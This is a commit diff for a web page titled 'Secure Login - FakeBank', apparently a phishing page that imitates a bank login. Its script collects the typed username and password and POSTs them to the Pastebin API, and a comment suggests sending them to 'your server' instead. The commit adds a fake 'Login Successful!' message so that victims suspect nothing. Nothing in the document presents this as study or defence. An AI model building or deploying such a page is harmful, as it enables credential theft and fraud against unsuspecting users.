

Before and after one commit to onlineworkinghubjob-byte/index.html, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample123" into the empty fields and a click on the button "Login". Shown: the whole page, without its empty margins (321-961 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,22 +1,66 @@
 <!DOCTYPE html>
 <html>
 <head>
-  <title>Login - FakeBank</title>
+  <meta charset="UTF-8">
+  <title>Secure Login - FakeBank</title>
   <style>
-    body { font-family: Arial; background: #f0f0f0; }
-    .login-box { width: 300px; margin: 50px auto; padding: 20px; background: white; border: 1px solid #ccc; }
-    input { width: 100%; padding: 10px; margin: 10px 0; }
-    button { width: 100%; padding: 10px; background: #4285F4; color: white; }
+    body {
+      font-family: Arial, sans-serif;
+      background: #f0f0f0;
+      margin: 0;
+      padding: 0;
+    }
+    .login-box {
+      width: 300px;
+      margin: 100px auto;
+      padding: 20px;
+      background: white;
+      border: 1px solid #ccc;
+      box-shadow: 0 0 10px rgba(0,0,0,0.1);
+    }
+    h2 {
+      text-align: center;
+      color: #333;
+    }
+    input[type="text"],
+    input[type="password"] {
+      width: 100%;
+      padding: 10px;
+      margin: 10px 0;
+      box-sizing: border-box;
+    }
+    button {
+      width: 100%;
+      padding: 10px;
+      background-color: #4285F4;
+      color: white;
+      border: none;
+      cursor: pointer;
+      font-size: 16px;
+    }
+    button:hover {
+      background-color: #357ABD;
+    }
+    .success-message {
+      text-align: center;
+      margin-top: 20px;
+      color: green;
+      font-weight: bold;
+    }
   </style>
 </head>
 <body>
   <div class="login-box">
-    <h2>Login to FakeBank</h2>
+    <h2>Secure Login - FakeBank</h2>
     <form id="loginForm">
       <input type="text" placeholder="Username" required>
       <input type="password" placeholder="Password" required>
       <button type="submit">Login</button>
     </form>
+  </div>
+
+  <div class="success-message" id="successMessage" style="display: none;">
+    ✅ Login Successful!
   </div>
 
   <script>
@@ -25,14 +69,19 @@
       const username = document.querySelector('input[type="text"]').value;
       const password = document.querySelector('input[type="password"]').value;
 
-      // Send the data to Pastebin
+      // Send data to Pastebin or your server
       fetch('https://pastebin.com/api/api_post.php', {
         method: 'POST',
         headers: {
           'Content-Type': 'application/x-www-form-urlencoded'
         },
-        body: 'api_dev_key=your_api_key&api_option=paste&api_paste_code=' + JSON.stringify({ username, password })
+        body: 'api_dev_key=your_api_key&amp;api_option=paste&amp;api_paste_code=' + JSON.stringify({ username, password })
       });
+
+      // Show success message
+      document.getElementById('successMessage').style.display = 'block';
+      // Optional: Reset the form
+      this.reset();
     });
   </script>
 </body>
```
